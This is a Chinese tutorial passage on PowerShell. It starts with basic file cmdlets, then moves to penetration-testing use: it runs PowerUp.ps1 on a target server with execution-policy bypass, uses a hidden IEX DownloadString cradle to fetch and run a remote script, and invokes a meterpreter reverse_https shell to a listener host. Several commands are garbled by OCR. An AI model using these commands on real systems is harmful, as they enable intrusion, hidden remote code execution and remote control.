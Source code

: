 ``get-process p* | stop-process``

#### PowerShell 的常用命令

##### 基本知识

在PowerShell下，类似cmd命令的命令叫作cmdlet命令。二者的命名规范一致，都采用"动词-名词"的形式，例如"New-ltem"。动词部分一般分为 Add, New, Get, Remove, Set等。命令的别名一般兼容Windows Command 和 Linux Shell，例如 Get-Childltem(获取子项目，意思为获取当前目录下的文件和子目录)命令在 dir 和 ls 下均可使用。另外，PowerShell命令不区分大小写。

下面以文件操作为例，讲解PowerShell命令的基本用法：

+ 新键目录：``New-ltem whitecellclub-ltem Type Directory``。
+ 新建文件：``New-ltem light.txt-ltemType File``。
+ 删除目录：``Remove-ltem whitecellclub``。
+ 显示文本内容：``Get-Content test.txt``。
+ 设置文本内容：``Set-Content test.txt-Value "hello world!"``。
+ 追加内容：``Add-Content light.txt-Value "i love you"``。
+ 清除内容：``Clear-Content test.txt``。

##### 常用命令

在Windows终端下输入"powershell"，进入PowerShell命令行环境。输入"help"命令即可显示帮助菜单。

[![g0exqf.png](https://z3.ax1x.com/2021/05/12/g0exqf.png)](https://imgtu.com/i/g0exqf)

想要运行PowerShell脚本程序，必须使用管理员权限将策略从Restricted改成Unrestricted。

**1.绕过本地权限并执行**

将 PowerUp.ps1 上传至目标服务器。在命令行环境下，执行如下命令，绕过安全策略，在目标服务器本地执行该脚本：

```
PowerShell.exe -ExecutionPolicy Bypass -File PowerUp.ps1
```

将同一脚本上传到目标服务器中，在目标本地执行脚本文件，命令如下：

```
powershell.exe -exec bypass -Command "& {Import-Module C:\PowerUp.ps1; Invoke-AllChecks}"
```

[![g0rAUS.png](https://z3.ax1x.com/2021/05/13/g0rAUS.png)](https://imgtu.com/i/g0rAUS)

......

**2.从网站服务器中下载脚本，绕过本地权限并隐藏执行：**

```
PowerShell.exe -ExecutionPolicy Bypass-WindowStyle Hidden-NoProfile-NonIIEX(New-ObjectNet.WebClient).DownloadString("xxx.ps1");[Parameters]
```

最终的执行代码如下：

```
PowerShell.exe -ExecutionPolicy Bypass-WindowStyle Hidden-NoProfile-NonIIEX(New-ObjectNet.WebClient).DownloadString("要上传的PowerUp.ps1脚本链接");

Invoke-Shellcode -Payload windows/meterpreter/reverse_https-Lhost 192.168.1.1 -Lport 80
```

